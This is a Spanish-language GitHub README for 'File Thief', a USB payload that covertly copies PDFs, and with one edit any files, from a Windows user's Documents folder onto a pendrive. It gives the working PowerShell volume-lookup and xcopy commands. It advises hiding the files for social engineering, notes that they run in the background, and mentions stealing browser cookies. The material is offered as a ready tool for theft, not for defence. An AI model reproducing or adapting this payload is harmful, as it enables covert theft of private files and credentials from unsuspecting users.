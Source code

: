# File Thief

### para que sirve

Este codigo se utiliza para poder extrar archivos (.pdf) de la carpeta de Documentos del Usuario con Windows.

### A tener en cuenta

 Para que esto funcione debe configurarse el nombre del pendrive dentro del archivo (USB Exfiltration Payload.bat)

    powershell ".((gwmi win32_volume -f 'label=''LABEL''').Name+'d.cmd')"

La etiqueta LABEL corresponde al nombre del pendrive.
    
Por ejemplo, si en pendrive tiene el nombre "MyPen" este nombre debe estar en el codigo del archivo USB Exfiltration Payload.bat como
    
    powershell ".((gwmi win32_volume -f 'label=''MyPen''').Name+'d.cmd')"
    
Todos los archivos deben ir sueltos dentro de la memoria.

Se pueden ocultar para que a la hora de hacer ing social no se percaten de estos archivos.

Los archivos se ejecutan en 2do plano asi que tranqui.

Esto demora lo que tenga que demorar, me explico, depende de la transferencia de archivos.
    
no es lo mismo copiar las cookies de los navegadores que copiar todas las imagenes de la computadora.

### Solo pdf's?

No! para poder cambiar esto solo se debe modificar el archivo (e.cmd) en la linea 22

    xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul

vemos que busca cualquier archivo con la extencion (.pdf), si queremos buscar cualquier archivo solo cambiamos la extencion por un (*), por ejemplo.

    xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.* %dst% >>nul

de misma manera no estamos limitados a buscar en la carpeta de Documents\. Podemos recorrer cualquier parte del directorio.

### PoC

[Extraer PDF's](https://www.youtube.com/watch?v=prRtnkIW21M)

### Creador

[Agustin Bassi](https://twitter.com/aguztynbassi)
